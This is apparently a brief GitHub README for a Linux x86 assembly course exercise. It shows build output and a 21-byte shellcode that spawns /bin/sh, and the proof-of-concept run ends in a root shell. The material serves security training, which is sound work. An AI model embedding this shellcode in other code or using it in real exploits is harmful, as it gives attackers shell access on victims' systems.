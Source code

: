 # SLAE
Securitytube Linux Assembly Expert (SLAE)

SLAE-721

### Build

```shell
[+] Assembling ...
[+] Linking ...
[+] Extract Shellcode from binary ...

"\x31\xc0\x50\x68\x2f\x2f\x73\x68"
"\x68\x2f\x62\x69\x6e\x89\xe3\x89"
"\xc1\xb0\x0b\xcd\x80"

[+] Create C-Header file ...
[+] Compile PoC ...
[+] Run PoC ...
[+] Shellcode Length:  21
# id
uid=0(root) gid=0(root) groups=0(root)
# exit

[+] Clean ...
[+] Done!
```
